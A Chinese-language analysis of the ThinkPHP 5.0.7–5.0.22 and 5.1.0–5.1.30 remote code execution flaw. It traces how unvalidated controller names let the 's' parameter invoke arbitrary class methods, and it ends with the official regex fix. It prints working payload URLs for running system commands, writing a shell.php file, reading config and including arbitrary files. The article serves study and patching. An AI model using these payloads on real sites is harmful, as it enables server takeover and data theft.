








本系列文章将针对 **ThinkPHP** 的历史漏洞进行分析，今后爆出的所有 **ThinkPHP** 漏洞分析，也将更新于 [ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln) 项目上。本篇文章，将分析 **ThinkPHP** 中存在的 **远程代码执行** 漏洞。

## 漏洞概要

本次漏洞存在于 **ThinkPHP** 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 **远程代码执行漏洞** 的产生。漏洞影响版本： **5.0.7<=ThinkPHP5<=5.0.22** 、**5.1.0<=ThinkPHP<=5.1.30**。不同版本 **payload** 需稍作调整：

**5.1.x** ：

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

**5.0.x** ：

```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

## 漏洞环境

通过以下命令获取测试环境代码：

```bash
composer create-project --prefer-dist topthink/think tpdemo
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.30"
},
```

然后执行 `composer update` 。接着访问 **http://localhost:8000/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1** 链接，即可触发 **远程代码执行漏洞** 。



## 漏洞分析

首先在官方发布的 **5.1.31** 版本更新说明中，发现其中提到该版本包含了一个安全更新。



官方微信 [公众号](https://mp.weixin.qq.com/s/ie9Evj1Cedw4OomgkJug5A) 中有对本次安全更新的些许描述：

> 本次版本更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

我们可以查阅其 **commit** 记录，发现其增加了对控制器名的检测。接下来，我们直接跟进代码一探究竟。



这次我们不再直接跟着 **payload** 进行漏洞分析，而是通过官方的些许描述和 **github commit** 记录，来还原漏洞。首先，默认情况下安装的 **ThinkPHP** 是没有开启强制路由选项，而且默认开启路由兼容模式。



而从官方的更新描述中可以提取出两个关键点：

- 控制器名
- 强制路由

在没有开启强制路由，说明我们可以使用路由兼容模式 **s** 参数，而框架对控制器名没有进行足够的检测，说明可能可以调用任意的控制器，那么我们可以试着利用 **http://site/?s=模块/控制器/方法** 来测试一下。在先前的 **ThinkPHP SQL注入** 分析文章中，我们都有提到所有用户参数都会经过 **Request** 类的 **input** 方法处理，该方法会调用 **filterValue** 方法，而 **filterValue** 方法中使用了 **call_user_func** ，那么我们就来尝试利用这个方法。访问如下链接：

```
http://localhost:8000/?s=index/\think\Request/input&filter[]=system&data=pwd
```

会发现可以成功执行命令。接下来，我们直接在官方修改的 **$controller** 代码段打下断点。我们可以看到控制器的名字是从 **$result** 中获取的，而 **$result** 的值来源于兼容模式下的 **pathinfo** ，即 **s** 参数。



接着程序会跳回 **App** 类的 **run** 方法，进而调用 **Dispatch** 类的 **run** 方法，该方法会调用关键函数 **exec** ，我们跟进。



在 **exec** 函数中，程序利用反射机制，调用类的方法。这里的类、方法、参数均是我们可以控制的。而且整个过程，并没有看到程序对控制器名的合法性进行检测，这也是导致 **远程代码执行漏洞** 的直接原因。



以上是针对 **ThinkPHP5.1.x** 版本的漏洞分析。如果直接拿该版本的 **payload** 去测试 **ThinkPHP5.0.x** 版本，会发现很多 **payload** 都不能成功。其原因是两个大版本已加载的类不同，导致可利用的类也不尽相同。具体如下：

```
ThinkPHP 5.1.x                  ThinkPHP 5.0.x
stdClass                        stdClass 
Exception                       Exception 
ErrorException                  ErrorException 
Closure                         Closure 
Generator                       Generator 
DateTime                        DateTime 
DateTimeImmutable               DateTimeImmutable 
DateTimeZone                    DateTimeZone 
DateInterval                    DateInterval 
DatePeriod                      DatePeriod 
LibXMLError                     LibXMLError 
DOMException                    DOMException 
DOMStringList                   DOMStringList 
DOMNameList                     DOMNameList 
DOMImplementationList           DOMImplementationList 
DOMImplementationSource         DOMImplementationSource 
DOMImplementation               DOMImplementation 
DOMNode                         DOMNode 
DOMNameSpaceNode                DOMNameSpaceNode 
DOMDocumentFragment             DOMDocumentFragment 
DOMDocument                     DOMDocument 
DOMNodeList                     DOMNodeList 
DOMNamedNodeMap                 DOMNamedNodeMap 
DOMCharacterData                DOMCharacterData 
DOMAttr                         DOMAttr 
DOMElement                      DOMElement 
DOMText                         DOMText 
DOMComment                      DOMComment 
DOMTypeinfo                     DOMTypeinfo 
DOMUserDataHandler              DOMUserDataHandler 
DOMDomError                     DOMDomError 
DOMErrorHandler                 DOMErrorHandler 
DOMLocator                      DOMLocator 
DOMConfiguration                DOMConfiguration 
DOMCdataSection                 DOMCdataSection 
DOMDocumentType                 DOMDocumentType 
DOMNotation                     DOMNotation 
DOMEntity                       DOMEntity 
DOMEntityReference              DOMEntityReference 
DOMProcessingInstruction        DOMProcessingInstruction 
DOMStringExtend                 DOMStringExtend 
DOMXPath                        DOMXPath 
finfo                           finfo 
LogicException                  LogicException 
BadFunctionCallException        BadFunctionCallException 
BadMethodCallException          BadMethodCallException 
DomainException                 DomainException 
InvalidArgumentException        InvalidArgumentException 
LengthException                 LengthException 
OutOfRangeException             OutOfRangeException 
RuntimeException                RuntimeException 
OutOfBoundsException            OutOfBoundsException 
OverflowException               OverflowException 
RangeException                  RangeException 
UnderflowException              UnderflowException 
UnexpectedValueException        UnexpectedValueException 
RecursiveIteratorIterator       RecursiveIteratorIterator 
IteratorIterator                IteratorIterator 
FilterIterator                  FilterIterator 
RecursiveFilterIterator         RecursiveFilterIterator 
CallbackFilterIterator          CallbackFilterIterator 
RecursiveCallbackFilterIterator RecursiveCallbackFilterIterator 
ParentIterator                  ParentIterator 
LimitIterator                   LimitIterator 
CachingIterator                 CachingIterator 
RecursiveCachingIterator        RecursiveCachingIterator 
NoRewindIterator                NoRewindIterator 
AppendIterator                  AppendIterator 
InfiniteIterator                InfiniteIterator 
RegexIterator                   RegexIterator 
RecursiveRegexIterator          RecursiveRegexIterator 
EmptyIterator                   EmptyIterator 
RecursiveTreeIterator           RecursiveTreeIterator 
ArrayObject                     ArrayObject 
ArrayIterator                   ArrayIterator 
RecursiveArrayIterator          RecursiveArrayIterator 
SplFileInfo                     SplFileInfo 
DirectoryIterator               DirectoryIterator 
FilesystemIterator              FilesystemIterator 
RecursiveDirectoryIterator      RecursiveDirectoryIterator 
GlobIterator                    GlobIterator 
SplFileObject                   SplFileObject 
SplTempFileObject               SplTempFileObject 
SplDoublyLinkedList             SplDoublyLinkedList 
SplQueue                        SplQueue 
SplStack                        SplStack 
SplHeap                         SplHeap 
SplMinHeap                      SplMinHeap 
SplMaxHeap                      SplMaxHeap 
SplPriorityQueue                SplPriorityQueue 
SplFixedArray                   SplFixedArray 
SplObjectStorage                SplObjectStorage 
MultipleIterator                MultipleIterator 
SessionHandler                  SessionHandler 
ReflectionException             ReflectionException 
Reflection                      Reflection 
ReflectionFunctionAbstract      ReflectionFunctionAbstract 
ReflectionFunction              ReflectionFunction 
ReflectionParameter             ReflectionParameter 
ReflectionMethod                ReflectionMethod 
ReflectionClass                 ReflectionClass 
ReflectionObject                ReflectionObject 
ReflectionProperty              ReflectionProperty 
ReflectionExtension             ReflectionExtension 
ReflectionZendExtension         ReflectionZendExtension 
__PHP_Incomplete_Class          __PHP_Incomplete_Class 
php_user_filter                 php_user_filter 
Directory                       Directory 
SimpleXMLElement                SimpleXMLElement 
SimpleXMLIterator               SimpleXMLIterator 
SoapClient                      SoapClient 
SoapVar                         SoapVar 
SoapServer                      SoapServer 
SoapFault                       SoapFault 
SoapParam                       SoapParam 
SoapHeader                      SoapHeader 
PharException                   PharException 
Phar                            Phar 
PharData                        PharData 
PharFileInfo                    PharFileInfo 
XMLReader                       XMLReader 
XMLWriter                       XMLWriter 
ZipArchive                      ZipArchive 
PDOException                    PDOException 
PDO                             PDO 
PDOStatement                    PDOStatement 
PDORow                          PDORow 
CURLFile                        CURLFile 
Collator                        Collator 
NumberFormatter                 NumberFormatter 
Normalizer                      Normalizer 
Locale                          Locale 
MessageFormatter                MessageFormatter 
IntlDateFormatter               IntlDateFormatter 
ResourceBundle                  ResourceBundle 
Transliterator                  Transliterator 
IntlTimeZone                    IntlTimeZone 
IntlCalendar                    IntlCalendar 
IntlGregorianCalendar           IntlGregorianCalendar 
Spoofchecker                    Spoofchecker 
IntlException                   IntlException 
IntlIterator                    IntlIterator 
IntlBreakIterator               IntlBreakIterator 
IntlRuleBasedBreakIterator      IntlRuleBasedBreakIterator 
IntlCodePointBreakIterator      IntlCodePointBreakIterator 
IntlPartsIterator               IntlPartsIterator 
UConverter                      UConverter 
JsonIncrementalParser           JsonIncrementalParser 
mysqli_sql_exception            mysqli_sql_exception 
mysqli_driver                   mysqli_driver 
mysqli                          mysqli 
mysqli_warning                  mysqli_warning 
mysqli_result                   mysqli_result 
mysqli_stmt                     mysqli_stmt 
Composer\Autoload\ComposerStaticInit81a0c33d33d83a86fdd976e2aff753d9            Composer\Autoload\ComposerStaticInit8a67cf04fc9c0db5b85a9d897c12a44c 
think\Loader                    think\Loader
think\Error                     think\Error 
think\Container                 think\Config 
think\App                       think\App 
think\Env                       think\Request 
think\Config                    think\Hook 
think\Hook                      think\Env 
think\Facade                    think\Lang 
think\facade\Env                think\Log 
env                             think\Route
think\Db 
think\Lang 
think\Request 
think\facade\Route 
route 
think\Route 
think\route\Rule 
think\route\RuleGroup 
think\route\Domain 
think\route\RuleItem 
think\route\RuleName 
think\route\Dispatch 
think\route\dispatch\Url 
think\route\dispatch\Module 
think\Middleware 
think\Cookie 
think\View 
think\view\driver\Think 
think\Template 
think\template\driver\File 
think\Log 
think\log\driver\File 
think\Session 
think\Debug 
think\Cache 
think\cache\Driver 
think\cache\driver\File 
```

## 漏洞修复

官方的修复方法是：增加正则表达式 `^[A-Za-z](\w)*$` ，对控制器名进行合法性检测。


## 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

